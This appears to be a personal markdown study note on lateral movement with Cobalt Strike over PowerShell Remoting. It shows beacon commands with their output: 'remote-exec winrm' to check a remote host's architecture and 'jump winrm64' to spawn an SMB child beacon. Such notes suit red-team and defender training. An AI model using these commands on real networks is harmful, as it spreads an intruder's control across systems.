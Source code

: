 ```yaml
---
creation date: September 23rd 2022
last modified date: September 23rd 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[PowerShell Remoting]]  
___

## Description:  

For Lateral Movement in Cobalt Strike


The `winrm` and `winrm64` methods can be used as appropriate for 32 and 64-bit targets.


Determine the architecture of a remote system

```
beacon> remote-exec winrm srv-1 (Get-WmiObject Win32_OperatingSystem).OSArchitecture
64-bit
```

Use an SMB beacon is windows environments
```
beacon> jump winrm64 srv-1 smb
[+] established link to child beacon: 10.10.17.25
```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 23rd 2022 (04:34 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
